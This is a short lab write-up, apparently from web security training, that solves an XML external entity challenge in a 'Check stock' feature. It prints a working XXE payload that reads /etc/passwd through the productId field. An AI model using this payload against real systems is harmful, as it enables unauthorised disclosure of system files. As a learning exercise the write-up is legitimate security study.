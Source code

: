 # Exploiting XXE to retrieve files

## Lab #1: Exploiting XXE using external entities to retrieve files

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
> 
> To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 

Check stock request has content type of `application/xml`

![d984e097d434d2b44b9eb3bb87076b9f.png](_resources/10347cbe61bf46779e9f37a17a09b6f4.png)

Add custom external entities to read `/etc/passwd` file 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY passwd SYSTEM "file:///etc/passwd"> ] >
<stockCheck><productId>&passwd;</productId><storeId>1</storeId></stockCheck>
```

Solved

![82f12ccac31c2ccaccb1cfcb2c1e6bf2.png](_resources/f59a20251a894e6d9453162369f88e84.png)



